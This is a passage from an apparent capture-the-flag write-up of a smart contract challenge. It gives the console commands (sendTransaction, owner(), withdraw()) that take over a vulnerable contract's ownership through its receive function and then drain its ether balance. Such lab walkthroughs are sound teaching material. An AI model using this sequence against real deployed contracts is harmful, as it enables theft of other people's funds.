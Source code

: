 ```solidity
```
- Once the player has some ether assigned in the contributions mapping, one of the conditions in the require statement in the receive function is met. The only other condition in that require statement is msg.value should be greater than 0 while calling the receive function. This can be taken care of while triggering the function.
- Now we can go ahead and call the receive function by using the following RPC command on the contract to send a transaction (with some minimum ether, in this case 4 Wei). 
```solidity
await contract.sendTransaction({value: 4})
```
- This will trigger the following code on line 54:
```solidity
owner = msg.sender;
```
- Go ahead and check the owner of the contract by using the following command:
```solidity
await contract.owner()
```
- Viola! you will see your address as the owner of the contract!!
- Now the final step of solving this problem is executing the withdraw function:
```solidity
await contract.withdraw()
```
This will execute the following code, which will send the balance of the contract's ether balance to the owner's address. And by now the player is the owner! So the final step of the problem is completed!
```solidity
owner.transfer(address(this).balance);
```
- Go ahead and perform the final check by executing the final command and check if player's address has the balance. Also check if the contract's address balance is 0.
```
await getBalance(player)
await getBalance(contract.address)
```



## Hope you found the explanation helpful and were able to understand the solution in detail! See you in the next post!